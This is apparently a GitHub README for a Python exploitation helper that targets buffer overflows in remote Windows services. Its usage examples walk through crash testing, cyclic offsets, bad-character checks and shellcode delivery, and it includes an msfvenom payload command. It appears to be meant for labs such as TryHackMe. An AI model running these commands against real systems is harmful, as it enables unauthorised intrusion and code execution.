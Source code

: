 # Buffer-Overflow

## ig-buffer-overflow.py
* Help functions for exploting buffer overflow vulnerabilities in a Windows remote binary. 
* Tested with: Vanilla Buffer Overflow, Structured Exception Handling Overwrite (SEH Overwrite), Egg Hunting.

## Usage

test - Sends simple string (AAAAA) with buffer size and buffer head for memory test
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

cyclic - Sends cyclic pattern to help identify memory positions
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

checkoffset - Auxiliary mode for offset detection on pattern
```
./ig-buffer-overflow.py -m checkoffset --value=31704331 --length=5000
```

write - Writes hex value to buffer offset
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809
```

write - Writes hex value to buffer offset and additional content before and/or after the offset content
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --before=90909090 --after=9090
```

write - Writes badchars (before or after offset content) for badchar verification
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --after=badchar --exclude=000a
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --before=badchar --exclude=000a
```

write - Sends malicious shell code (hex string file) via buffer overflow
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --before=shellcode --shellcode=opencalc --nops=10
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --after=shellcode --shellcode=opencalc
```

## Parameters:
* --help|-h	: Show script usage.
* --norec|-n	: Don't wait for receive message after connect.
* --mode|-m	: Select script mode (test|cyclic|write|checkoffset).
* --rhost		: Remote host IP.
* --rport		: Remote host port.
* --buffsize	: Amount of variable bytes to send.
* --buffhead	: Static buffer string set at the beginning of the buffer.
  * Is usually the crash string. Size is considered in buffSize calc.
* --interact	: Interact with the application before sending the payload. For each message in string (separated with ';;'), sends and receives response from app.
  * Example: --interact='login;;user' --> Sends 'login', gets response, sends 'user', gets response, and finally sends the generated payload
* --offset	: Place in buffer where content can be added.
* --hexcontent	: Hex string to add at the offset position.
  * Can be considered as big endian (default) or little endian (will be reversed).
  * Use 'g' or 'l' to delimit the order. Examples:
    * 'g01020304l05060708' --> will send '0102030408070605'
    * '01020304' --> will send '01020304'
* --before|after	: Writes additional content (hex string) before and/or after the offset content.
  * If content is 'badchar', content will be a generated badchar list. Used for bad char testing.
  * If content is 'shellcode', --shellcode parameter will be expected.
  * Other content will be considered as big endian (default) or little endian (will be reversed). Same as --hexcontent.
* --exclude	: List of chars (formatted as hex string) to be excluded from badchar list.
* --shellcode	: Hex shell code file generated using msfvenom. 
  * Example: msfvenom -p windows/exec cmd=calc.exe -b '\x00' -f hex EXITFUNC=thread -o opencalc
* --nopsb|nopsa	: Amount of nops to add before and/or after the additional write content (be if badchars, shellcode or simple hexstring). Default is 0.
* --value		: Offset value.
* --length	: Cyclic pattern length.


## Vanilla Buffer Overflow example

[TryHackMe - Brainstorm - Write-up](https://github.com/isabellecda/writeups/tree/main/TryHackMe/Brainstorm)

## SEH Overwrite example

TODO

## Egg Hunting example

TODO
